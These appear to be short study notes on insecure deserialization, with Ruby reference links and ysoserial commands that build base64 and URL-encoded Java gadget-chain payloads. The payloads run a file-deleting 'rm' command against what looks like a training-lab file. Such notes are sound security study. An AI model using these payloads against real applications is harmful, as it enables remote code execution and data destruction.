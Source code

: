 

### Ruby
https://knowledge-base.secureflag.com/vulnerabilities/unsafe_deserialization/unsafe_deserialization_ruby.html

Universal ruby deserialization for marshal
https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html

### PHP


## java

magic bytes after base64 encoding the serialized object will be `rO0AB`

- ysoserial with base64 and urlencode
```bash
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections7 'rm /home/Carlos/morale.txt' | base64 -w0 | python3 -c 'import sys, urllib.parse; print(urllib.parse.quote(sys.stdin.read()))'
```

- use docker to avoid library mismatch and dependency issues

```bash
docker run --rm ysoserial:latest CommonsCollections4 'rm /home/Carlos/morale.txt' | base64 -w0 | python3 -c 'import sys, urllib.parse; print(urllib.parse.quote(sys.stdin.read()))'

```